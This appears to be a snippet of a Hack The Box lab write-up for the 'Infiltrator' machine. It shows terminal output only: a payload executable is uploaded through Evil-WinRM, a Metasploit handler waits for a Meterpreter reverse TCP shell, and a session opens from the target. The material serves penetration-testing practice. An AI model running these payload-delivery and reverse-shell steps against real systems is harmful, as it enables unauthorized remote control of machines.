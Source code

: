 ```c
*Evil-WinRM* PS C:\Users\M.harris\Documents> upload asdf.exe
                                        
Info: Uploading /media/sf_cybersecurity/notes/HTB/Machines/Infiltrator/files/asdf.exe to C:\Users\M.harris\Documents\asdf.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
```

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: After running db_nmap, be sure to check out the result 
of hosts and services
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.72
LHOST => 10.10.14.72
msf6 exploit(multi/handler) > set LPORT 6969
LPORT => 6969
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.72:6969
```

```c
[*] Sending stage (201798 bytes) to 10.129.223.154
[*] Meterpreter session 1 opened (10.10.14.72:6969 -> 10.129.223.154:50495) at 2024-09-01 11:47:41 +0200

meterpreter > 
```
